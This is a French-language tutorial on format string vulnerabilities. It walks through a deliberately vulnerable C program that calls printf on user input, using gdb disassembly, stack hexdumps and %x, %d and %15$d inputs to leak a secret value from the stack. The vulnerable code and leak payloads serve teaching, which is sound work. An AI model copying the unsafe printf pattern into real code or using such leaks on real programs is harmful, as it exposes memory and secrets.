 # Format String 

Pour illustrer, prenons un exemple simple et essayons d'afficher la valeur de `secret`

```c
long secret = rand();
char buf[64];

printf("Votre nom: ");
fgets(buf, sizeof(buf), stdin);
printf("Bonjour, ");
printf(buf);
```

Regardons si un leak est possible

```bash
└─$ ./printf-leak
Votre nom: %x %x %x %x %x
Bonjour, 6a6e6f42 0 0 359a06bf 4
```

Ouvrons gdb et mettons un break juste apres le printf de notre buffer, pour voir à quoi correspondent les leaks

```sh
└─$ gdb printf-leak
# ...
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000401146 <+0>:	push   rbp
   0x0000000000401147 <+1>:	mov    rbp,rsp
   0x000000000040114a <+4>:	sub    rsp,0x50
   0x000000000040114e <+8>:	call   0x401050 <rand@plt>
   0x0000000000401153 <+13>:	cdqe
   0x0000000000401155 <+15>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401159 <+19>:	lea    rax,[rip+0xea4]        # 0x402004
   0x0000000000401160 <+26>:	mov    rdi,rax
   0x0000000000401163 <+29>:	mov    eax,0x0
   0x0000000000401168 <+34>:	call   0x401030 <printf@plt>
   0x000000000040116d <+39>:	mov    rdx,QWORD PTR [rip+0x2ebc]        # 0x404030 <stdin@GLIBC_2.2.5>
   0x0000000000401174 <+46>:	lea    rax,[rbp-0x50]
   0x0000000000401178 <+50>:	mov    esi,0x40
   0x000000000040117d <+55>:	mov    rdi,rax
   0x0000000000401180 <+58>:	call   0x401040 <fgets@plt>
   0x0000000000401185 <+63>:	lea    rax,[rip+0xe84]        # 0x402010
   0x000000000040118c <+70>:	mov    rdi,rax
   0x000000000040118f <+73>:	mov    eax,0x0
   0x0000000000401194 <+78>:	call   0x401030 <printf@plt>
   0x0000000000401199 <+83>:	lea    rax,[rbp-0x50]
   0x000000000040119d <+87>:	mov    rdi,rax
   0x00000000004011a0 <+90>:	mov    eax,0x0
   0x00000000004011a5 <+95>:	call   0x401030 <printf@plt>
   0x00000000004011aa <+100>:	mov    eax,0x0
   0x00000000004011af <+105>:	leave
   0x00000000004011b0 <+106>:	ret
End of assembler dump.
```

Ici on peut voir que le printf de notre buffer se trouve à `main+95` donc mettons notre break juste apres et lançons-le 

```sh
gef➤  b *main+100
Breakpoint 1 at 0x4011aa
gef➤  run
Starting program: /[...]/printf-leak 
#...
Votre nom: %x %x %x %x %x
Bonjour, 6a6e6f42 0 0 4056bf 4
```

Si on affiche la stack, regardons à quoi ces valeurs correspodent

```sh
gef➤  hexdump byte $sp -s 240
0x00007fffffffdb70     25 78 20 25 78 20 25 78 20 25 78 20 25 78 0a 00    %x %x %x %x %x..
0x00007fffffffdb80     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdb90     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdba0     00 00 00 00 00 00 00 00 30 50 fe f7 ff 7f 00 00    ........0P......
0x00007fffffffdbb0     00 00 00 00 00 00 00 00 67 45 8b 6b 00 00 00 00    ........gE.k....
0x00007fffffffdbc0     01 00 00 00 00 00 00 00 68 ad dd f7 ff 7f 00 00    ........h.......
0x00007fffffffdbd0     c0 dc ff ff ff 7f 00 00 46 11 40 00 00 00 00 00    ........F.@.....
0x00007fffffffdbe0     40 00 40 00 01 00 00 00 d8 dc ff ff ff 7f 00 00    @.@.............
0x00007fffffffdbf0     d8 dc ff ff ff 7f 00 00 3b 7a 00 15 7f 0d 01 d2    ........;z......
0x00007fffffffdc00     00 00 00 00 00 00 00 00 e8 dc ff ff ff 7f 00 00    ................
0x00007fffffffdc10     00 d0 ff f7 ff 7f 00 00 f0 3d 40 00 00 00 00 00    .........=@.....
0x00007fffffffdc20     3b 7a a2 a2 80 f2 fe 2d 3b 7a 42 4f c4 e2 fe 2d    ;z.....-;zBO...-
0x00007fffffffdc30     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdc40     00 00 00 00 00 00 00 00 d8 dc ff ff ff 7f 00 00    ................
0x00007fffffffdc50     01 00 00 00 00 00 00 00 00 fc 85 5b 44 d7 6d 46    ...........[D.mF
```

Rien n'apparait, regardons plus haut dans la stack

```sh
gef➤  hexdump byte $sp-224 -s 240
0x00007fffffffda90     30 00 00 00 30 00 00 00 70 db ff ff ff 7f 00 00    0...0...p.......
0x00007fffffffdaa0     b0 da ff ff ff 7f 00 00 00 fc 85 5b 44 d7 6d 46    ...........[D.mF
0x00007fffffffdab0     00 00 00 00 00 00 00 00 42 6f 6e 6a 6f 75 72 2c    ........Bonjour,
0x00007fffffffdac0     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdad0     bf 56 40 00 00 00 00 00 04 00 00 00 00 00 00 00    .V@.............
0x00007fffffffdae0     00 00 00 00 01 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdaf0     00 00 00 00 00 00 00 00 d8 dc ff ff ff 7f 00 00    ................
0x00007fffffffdb00     e0 88 f9 f7 ff 7f 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdb10     70 db ff ff ff 7f 00 00 00 d0 ff f7 ff 7f 00 00    p...............
0x00007fffffffdb20     f0 3d 40 00 00 00 00 00 0a ea e2 f7 ff 7f 00 00    .=@.............
0x00007fffffffdb30     40 00 00 00 00 00 00 00 34 56 df f7 ff 7f 00 00    @.......4V......
0x00007fffffffdb40     ff ff ff ff 67 45 8b 6b d8 dc ff ff ff 7f 00 00    ....gE.k........
0x00007fffffffdb50     c0 db ff ff ff 7f 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdb60     e8 dc ff ff ff 7f 00 00 aa 11 40 00 00 00 00 00    ..........@.....
0x00007fffffffdb70     25 78 20 25 78 20 25 78 20 25 78 20 25 78 0a 00    %x %x %x %x %x..
```

On peut alors voir notre `4056bf`, suivi du `04`.
Un peu plus haut le `6a6e6f42`.

Comme expliqué, le `%x` affiche les valeurs sur 4 octets donc par exemple il est impossible de récupérer `2c72756f` sans faire de `%lx`, le `l` permettant d'afficher les valeurs en 8 octets bits.

Donc pour revenir à notre exemple:
`0x..dab8` -> `6a6e6f42`
`0x..dac0` -> `0`
`0x..dac8` -> `0`
`0x..dad0` -> `4056fb`
`0x..dad8` -> `4`

Comme repéré precedement, notre `secret` se trouve en `$rbp-0x8` or `$rbp   : 0x00007fffffffdbc0` donc notre secret est ici stocké en `0x..dbb8` ce qui est bien plus bas dans la stack.
En tentant avec plus de `%x` nous pouvons voir que la 15eme valeur correspond à celle présente en `0x..dbb8` visible dans le hexdump:

```sh
Votre nom: %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
Bonjour, 6a6e6f42 0 0 4056dd 4 25207825 20782520 78252078 25207825 20782520 78252078 0 f7fe5030 0 6b8b4567

gef➤  hexdump byte $sp -s 112
0x00007fffffffdb70     25 78 20 25 78 20 25 78 20 25 78 20 25 78 20 25    %x %x %x %x %x %
0x00007fffffffdb80     78 20 25 78 20 25 78 20 25 78 20 25 78 20 25 78    x %x %x %x %x %x
0x00007fffffffdb90     20 25 78 20 25 78 20 25 78 20 25 78 0a 00 00 00     %x %x %x %x....
0x00007fffffffdba0     00 00 00 00 00 00 00 00 30 50 fe f7 ff 7f 00 00    ........0P......
0x00007fffffffdbb0     00 00 00 00 00 00 00 00 67 45 8b 6b 00 00 00 00    ........gE.k....
0x00007fffffffdbc0     02 00 00 00 00 00 00 00 68 ad dd f7 ff 7f 00 00    ........h.......
0x00007fffffffdbd0     c0 dc ff ff ff 7f 00 00 46 11 40 00 00 00 00 00    ........F.@.....
```

Il nous reste plus qu'a récuperer cette valeur sous forme d'entier grâce à `%d`

```sh
└─$ ./printf-leak
Votre nom: %x %x %x %x %x %x %x %x %x %x %x %x %x %x %d 
Bonjour, 6a6e6f42 0 0 aa6e6de 4 25207825 20782520 78252078 25207825 20782520 64252078 0 67fa4030 0 1804289383
```

Ou plus simplement dans le cas où l'on connait l'index (15 ici) de la valeur, `%15$d` est plus direct, et indispensable dans le cas d'un buffer petit pour notre input.

```sh
└─$ ./printf-leak
Votre nom: %15$d
Bonjour, 1804289383
```

Rappel: `%<index>$<format>`